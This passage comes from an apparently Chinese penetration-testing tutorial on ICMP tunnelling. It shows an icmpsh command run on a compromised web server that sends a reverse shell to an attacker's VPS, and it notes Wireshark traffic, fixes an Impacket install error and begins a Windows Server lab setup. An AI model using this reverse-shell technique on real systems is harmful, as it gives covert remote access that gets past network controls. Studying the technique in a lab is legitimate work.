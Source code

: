 ### 4 WEB服务器运行

```php
icmpsh.exe -t 192.168.3.76
```

![097](https://shs3.b.qianxin.com/attack_forum/2021/12/attach-fefe1baba5f067538fbb1bd4fb843c212eedc85f.jpg)

v/ps接收到shell

![098](https://shs3.b.qianxin.com/attack_forum/2021/12/attach-200b965dbdfd3e2fd5a7e931df8d2b5224735115.jpg)

使用wireshark抓包可以看到数据包都是ICMP协议

![099](https://shs3.b.qianxin.com/attack_forum/2021/12/attach-23d586e84c9b51bcfad7388c01da296bda810d71.jpg)

### 5 报错解决

`You need to&amp;lt;span&amp;gt; &amp;lt;/span&amp;gt;``install``Python Impacket library first`

解决：

```php
git clone https://github.com/SecureAuthCorp/impacket.git
cd impacket
pip install -r requirements.txt
python setup.py install
```

如果第三行命令报错

![100](https://shs3.b.qianxin.com/attack_forum/2021/12/attach-703fe6f9cc45cc94ec32da5c37ec701034b7c21c.jpg)

切换普通用户再执行

![101](https://shs3.b.qianxin.com/attack_forum/2021/12/attach-879e946bb927212dea6e734789befc03f0fc461e.jpg)

安装完成后切换用户进行监听

### 6 局限性

V/PS和WEB服务器必须要能够相互ping通

七、附：隧道场景搭建
----------

windows server 2019环境-icmp出网环境搭建记录

### 1 WEB服务器环境搭建

设置Windows防火墙策略

### 1） 启用防火墙

![002](https://shs3.b.qianxin.com/attack_forum/2021/12/attach-f70d10989f814b0d52f0068091f563cfa4c8ced8.png)
